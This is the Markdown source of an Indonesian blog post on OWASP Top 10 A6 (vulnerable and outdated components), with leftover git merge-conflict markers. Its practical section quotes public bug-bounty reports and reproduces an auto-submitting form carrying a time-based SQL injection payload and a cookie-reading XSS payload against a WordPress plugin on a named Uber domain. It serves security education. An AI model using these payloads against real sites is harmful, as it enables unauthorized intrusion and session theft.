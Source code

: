 ```yaml
---
title: "Owasp Top 10 Series — A6 (Vulnerable and Outdated Components)"
date: 2022-05-07T18:45:34+07:00
tags: ["security"]
categories: ["Owasp Top Ten"]
<<<<<<< HEAD
thumbnail: "/icon/owasp.svg"
---
```


![Owaps top ten](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgiBvA85_BZ2tdH_9QCYHUgFw4V5J0mfoGbDjn1MzrRK3SV9vk3CUUxb5hRWcmVWPAAqzswwWfZop_WqEnmKQsOEqhhB1jl-ON6yiZmuSVkuXZ0TlxS4zZezTTpXXy0v_Sm9lS9Otsg9n9jsy8GTM3-O6IrEN0oceam8fthmCHlIs65XJccHz_pvp0eQN0/s1280/OWAPS.webp)
=======
description: "OWASP Top 10 — A6: Vulnerable and Outdated Components adalah kerentanan yang terjadi ketika aplikasi menggunakan perangkat lunak, library, atau dependensi yang sudah usang atau memiliki celah keamanan. Pencegahan meliputi pembaruan rutin, pemantauan CVE, serta penggunaan dependensi yang didukung dan aman."
disableHLJS: true 
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
---
![Owasp Top 10 Series — A6 (Vulnerable and Outdated Components)](cover.png)

>>>>>>> fd99555 (Update rebelsec.id Site)

## Pengantar

Artikel kali ini kita akan membahas owasp top 10 yang ada di urutan ke enam untuk tahun 2021 (owasp tiap 4 tahun sekali), ialah **Vulnerable and Outdated Components**.

OWASP merupakan singkatan dari _Open Web Application Security Project_, yang merupakan sebuah project _Security Web Application_ open source yang diperkasai oleh para penggiat teknologi atau pengembang aplikasi, OWASP sering mengadakan seminar, forum diskusi serta pendidikan untuk para Developer.

jadi yang dimaksud **OWASP TOP 10**? owasp top 10 merupakan sebuah cara untuk mengkategorikan resiko kerentanan yang sering terjadi pada sebuah aplikasi berbasis website, dari yang paling atas (resiko tertinggi) hingga yang paling bawah (tingkat resiko rendah), Tujuannya apa ?, tentu saja ini sangat berguna bagi para developer aplikasi supaya mereka jadi lebih aware terhadap kerentanan di aplikasi mereka.

## Vulnerable and Outdated Components

### apa itu Vulnerable and Outdated Components ?

**Vulnerable and Outdated Components** Merupakan sebuah kesalahan dari developer aplikasi yang memakai **Framework / Library** pihak ketiga tetapi masih versi lawas (Outdated), karena biasanya versi Outdate itu sangat rentan terhadadp serangan.

Ironisnya **Vulnerable and Outdated Components** ini sering terjadi di Indonesia :'(, apalagi situs situs yang tidak di maintenance dengan baik dan terbengkalai sehingga attacker dapat menggunakan kerentanan aplikasi itu.

## Praktikal

### #135288 Multiple vulnerabilities in a WordPress plugin at drive.uber.com

sumber : https://hackerone.com/reports/135288

attacker melakukan scanning di website **drive.uber.com** dan menemukan bahwa aplikasi tersebut masih menggunakan _WordPress 4.4.2_ (versi lawas).

dari \*WordPress 4.4.2\*\* ditemukan beberapa kerentanan seperti :

1. SQL INJECTION

attacker membuat sebuah halaman seperti berikut

```
<form action="https://drive.uber.com/ukmarketplace/wp-admin/edit.php?post_type=qa_faqs&page=faqpageorder" target="_blank"  method="post" style="display: none;">
            <input type="text" name="btnOrderPages" value="Click to Reorder FAQs" />
            <input type="text" name="hdnfaqpageorder" value="id_8,id_7" />
            <input type="text" name="hdnParentID" value="IF(MID(VERSION(),1,1) = 5, SLEEP(5), 0)" />
            <input type="text" name="btnReturnParent" value="1" />
            <input type="submit" name="send" value="Save" />
</form>
<script type="text/javascript">
document.forms[0].submit();
</script>
```

POST di _plugins/q-and-a/inc/reorder.php_

```
45. if (isset($_POST['btnReturnParent'])) {
46. 	$parentsParent = $wpdb->get_row("SELECT post_parent FROM $wpdb->posts WHERE ID = " . $_POST['hdnParentID'], ARRAY_N);
47. 	$parentID = $parentsParent[0];
48. }
```

2. Cross-Site Scripting (XSS)

Attacker Login ke _admin panel_ -> _Settings_ -> _Q & A_

ganti FAQ Homepage :

```
'"/autofocus/onfocus=alert(document.domain%2bdocument.cookie);//
```

### #168485 Exposed, outdated nginx server (v1.4.6) potentially vulnerable to heap-based buffer overflow & RCE

sumber : https://hackerone.com/reports/168485

attacker melakukan **recon** do ip address _54.153.101.52_ dan mendapati bahwa masih menggunakan **nginx version 1.4.6**

[CVE-2014-0133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0133)

CVE diatas terdapat kerentanan **RCE**

<<<<<<< HEAD
![Hackerone CVE 2014 0133](https://drive.google.com/uc?id=1LTMAZjEVU2YZZ01u-CIsWqeZWQvhXcCH)
=======
![Hackerone CVE 2014 0133](1.png)
>>>>>>> fd99555 (Update rebelsec.id Site)

## Mitigasi

Segera lakukan pengecekan berkala di aplikasi yang anda gunakan, jika memang memakai pihak ketiga (Framework) dari developer lain. usahakan selalu memakai versi yang paling update untuk meredam resiku peretasan.

## References

OWASP Application Security Verification Standard: V1 Architecture, design and threat modelling

OWASP Dependency Check (for Java and .NET libraries)

OWASP Testing Guide - Map Application Architecture (OTG-INFO-010)

OWASP Virtual Patching Best Practices

The Unfortunate Reality of Insecure Libraries

MITRE Common Vulnerabilities and Exposures (CVE) search

National Vulnerability Database (NVD)

Retire.js for detecting known vulnerable JavaScript libraries

Node Libraries Security Advisories

Ruby Libraries Security Advisory Database and Tools

```
https://safecode.org/publication/SAFECode_Software_Integrity_Controls0610.pdf
```

# Beberapa kerentanan lain di list CWE

CWE-937 OWASP Top 10 2013: Using Components with Known Vulnerabilities

CWE-1035 2017 Top 10 A9: Using Components with Known Vulnerabilities

CWE-1104 Use of Unmaintained Third Party Components
